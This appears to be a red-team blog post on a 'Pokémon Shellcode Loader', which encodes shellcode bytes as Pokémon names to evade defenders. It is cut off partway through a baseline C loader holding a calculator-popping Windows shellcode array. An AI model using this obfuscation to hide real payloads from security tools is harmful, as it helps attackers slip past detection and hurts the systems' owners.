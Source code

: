 #  Pokémon Shellcode Loader
Tired of looking at hex all day and popping '\x41's? Rather look at Lugia/Charmander? I have the solution for you. A tweet came in from @Checkymander about creating a shellcode loader from Pokémon names. Great fun project to mess with the blue team, but there wasn't a POC! (or at least when I last checked)

> **Note #1**
> Updated Code will be on my GitHub: https://github.com/Techryptic/Pokemon-Shellcode-Loader

> **Note #2**
> GitBooks: https://techryptic.gitbook.io/pokemon-shellcode

> **Note #3**
> GitPages: https://techryptic.github.io/2022/07/28/Pokemon-Shellcode-Loader

# Let's Load Some Instructions
There are multiple ways to do this:
If we look at a shellcode, it's a series of hexes from 0x00-0xFF, or in decimal form of 0-256. There happens to be way more than 256 Pokemon that we can choose from.

![](https://680730519-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FycWm23nLowYCIfLQMLG7%2Fuploads%2FQ8rpeQ1rItyYbOvE2xVl%2Fimage.png?alt=media&token=19289e61-2b90-4579-9c7f-3f8528a8f55a)

From looking at the Pokemon chart above, we can translate BULBASAUR, who is #001, to 0x01 (dropping the first zero). Likewise, CHARMANDER will be represented by 0x04 and so on. The Lucky null byte 0x00 can be aligned to Pokemon #257, BLAZIKEN!

Converting shellcode to Pokemon-Shellcode is simple. How about converting Pokemon-Shellcode to Assembly?! Do we want to have an Array within the .ASM? C code? Pull it down externally?

Many directions to go down!

# To Array or not to Array
We need data. First, I found two areas that contain both the number of the Pokemon and their name:

> https://gist.github.com/armgilles/194bcff35001e7eb53a2a8b441e8b2c6

And another one that only has the name of the Pokemon. This might be more useful because we can get the array index position for a particular pokemon without carrying over a long string.

> https://github.com/sindresorhus/pokemon/blob/main/data/en.json

# What's the baseline?
I am taking a regular POP CALC shellcode and throwing some C's at it.

```c++
#include <windows.h>

void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
		"\x50\x53\x51\x52\x56\x57\x55\x89"
		"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
		"\x63\x66\x68\x78\x65\x68\x57\x69"
		"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
		"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
		"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
		"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
		"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
		"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
```